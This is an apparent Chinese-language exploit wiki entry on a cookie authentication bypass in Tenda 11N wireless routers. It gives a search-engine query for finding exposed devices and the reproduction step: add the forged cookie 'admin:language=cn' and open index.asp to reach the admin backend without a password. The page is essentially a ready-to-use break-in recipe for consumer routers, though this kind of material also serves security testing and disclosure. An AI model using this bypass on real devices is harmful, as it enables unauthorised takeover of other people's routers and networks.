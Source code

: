 # Tenda 11N无线路由器 Cookie 越权访问漏洞

## 漏洞描述

Tenda 11N无线路由器由于只验证Cookie，导致任意用户伪造Cookie即可进入后台

## 漏洞影响

<a-checkbox checked>Tenda 11N无线路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TENDA-11N无线路由器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1646009335970-22d7f17e-3801-4d3b-bf5a-e7fa2b17749f.png)

添加Cookie, 访问 index.asp 进入后台

```javascript
admin:language=cn
```

![img](/assets/PeiQi-Wiki/img/1646009376481-0c885988-16f4-4a01-bd46-5d126a6b9d8d.png)



